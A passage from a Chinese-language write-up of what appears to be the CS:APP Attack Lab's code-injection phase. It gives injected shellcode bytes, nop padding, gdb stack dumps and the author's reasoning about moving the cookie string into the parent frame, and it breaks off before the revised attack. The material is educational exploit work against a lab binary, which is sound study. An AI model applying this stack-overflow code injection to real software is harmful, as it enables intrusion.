 ```
  14:	90                   	nop

```

那么其字节应该是`bf 78 dc 61 55 48 83 ec 08 c7 04 24 fa 18 40 00 c3`。一共 17 个字节，加上最前面 8 个字节，一共 25 个字节。最后插入 15 个字节的`nop`。

执行过程中内存情况如下：

```
(gdb) x/48xb 0x5561dc78
0x5561dc78:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
0x5561dc80:     0xbf    0x78    0xdc    0x61    0x55    0x48    0x83    0xec
0x5561dc88:     0x08    0xc7    0x04    0x24    0xfa    0x18    0x40    0x00
0x5561dc90:     0xc3    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x5561dc98:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x5561dca0:     0x80    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

而这里我们打印值后发现我们的`%edi`所指向的字符串如下：

```
(gdb) x/s $rdi
0x5561dc78:     "59b997fa\277x\334aUH\203\354\b\307\004$\372\030@"
```

而`cookie`的值如下：

```
(gdb) p /x cookie
$14 = 0x59b997fa
```

但是后来这个`buf`的空间就变成了这样：

```
5: x/48xb 0x5561dc78
0x5561dc78:     0x00    0x2e    0x40    0xcb    0xed    0x3e    0x25    0xb2
0x5561dc80:     0x78    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
0x5561dc88:     0xe8    0x5f    0x68    0x55    0x00    0x00    0x00    0x00
0x5561dc90:     0x02    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x16    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dca0:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
```

但是我们后来发现，这里栈的内容被完全改变了，而且字符串的后面忘了加`\0`字符。所以这里是有一些问题的。

#### 正确的解答

经过查阅一些[网上的资料](https://zhuanlan.zhihu.com/p/60724948)发现，我在阅读 C 语言代码的时候忽略了这 2 行：

```c
char cbuf[110];
/* Make position of check string unpredictable */
char *s = cbuf + random() % 100;
```

那么`hexmatch`和`strncmp`中分配的空间就是随机的。那么我们所做出的改变应该是让插入的字符串放在父函数`test`的位置，然后让`%rdi`指向`test`栈空间中的位置。`test`函数的位置在返回地址下面，那么应该是`buf + 48`即`0x5561dca8`。其字符`bf 78 dc 61 55 48 83 ec 00`应该在返回地址后面。而攻击代码也应该改为：
